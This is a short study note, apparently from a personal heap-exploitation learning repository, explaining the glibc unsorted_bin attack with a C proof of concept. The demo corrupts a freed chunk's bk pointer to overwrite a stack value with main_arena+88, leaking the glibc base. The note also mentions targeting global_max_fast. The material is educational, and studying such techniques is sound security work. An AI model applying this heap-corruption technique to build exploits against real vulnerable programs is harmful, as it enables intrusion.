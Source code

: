 # Unsorted_bin attack
> LongChampion, 19/03/2020

Initially, I don't think this is an attack, this is only the trick to overwrite one address in memory with a large value. But after a bit research, I see that the value used to overwrite is very interesting: this is a address of `main_arena + 88`. Why this address is interesting? If we overwrite this value to somewhere then read it, we can leak **GLIBC** base address.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    long long Value = 0x1234567890abcdef;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = (struct Chunk *) (&Value - 2);

    void *STACK = malloc(0x100 - 8);
}
```
Look at my `unsorted_bin_into_stack.md`:
> 8 bytes at address `Fake.bk + 0x10` will be overwrite

This is how this trick work, set `header->bk` to offset 0x10 before variable `Value`, then call `malloc` with exact request size, `Value` will be overwrite to `main_arena+88`. End of trick!

## Note
- At this time of writing, this trick is no longer work with latest version of **GLIBC** (my **GLIBC** version is 2.31)
- Another way to use this trick is to overwrite the `global_max_fast` in **GLIBC** for further fastbin attack.
- `Value` is define as `long long`, so `&Value - 2` will return the address at offset 0x10 before `Value`, don't be confuse with `&Value - 0x10`.
